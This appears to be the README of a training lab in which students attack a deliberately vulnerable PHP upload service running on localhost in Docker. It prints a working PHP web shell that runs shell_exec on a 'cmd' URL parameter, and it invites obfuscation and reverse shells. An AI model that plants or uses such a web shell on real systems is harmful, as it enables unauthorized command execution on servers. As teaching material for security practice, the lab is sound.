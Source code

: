 ## PHP Vuln LAB

### Setup
1. To run the lab, make sure you have docker engine installed. The lab can be started by changing directories `cd LAB` and then you can start the container by running `sudo docker-compose up --build --remove-orphans`.

2. Open your web browser and navigate to `http://localhost:8080/`

### Building the Malware

We want to see whats hiding in the criminals webserver. Why don't we exploit the fact that they are using PHP and write some malware! Maybe we can create a shell and run commands to see what's inside.

1. Create a file called `shell.php`, or whatever name you want to call your malware. (We are writing with php so feel free to obfuscate as you'd like for practice. You'll get brownie points?)

2. We want to be able to execute shell commands from the URL or setup a reverse shell. Refer to Dr. O'learys Cyber Operations text book for details on how to setup reverse shells, or look into what a netcat listener is. Brownie Points for making a reverse shell, however for this lab we will just be focusing on pumping commands through the URL field in our browser.

- How can we execute shell commands through our browser? We want the server to recognize our GET requests as shell commands with the input `cmd`. Here is an example of how I would build mine:

```
<?php
if (isset($_GET['cmd'])) {
    $cmd = ($_GET['cmd']);
    // We want to be able to view the output. Is the following necessary?
    echo "<pre>";
    $output = shell_exec($cmd);
    echo $output;
    echo "</pre>";
    exit; // Exit after executing the command
}
?>
```
3. Upload your fresh and snazzy malware to the upload link and navigate to `http://localhost:8080/uploads/`. Use your intuition from here to see if you can inject some commands!

Example Input:
`http://localhost:8080/uploads/shell.php?cmd=whoami`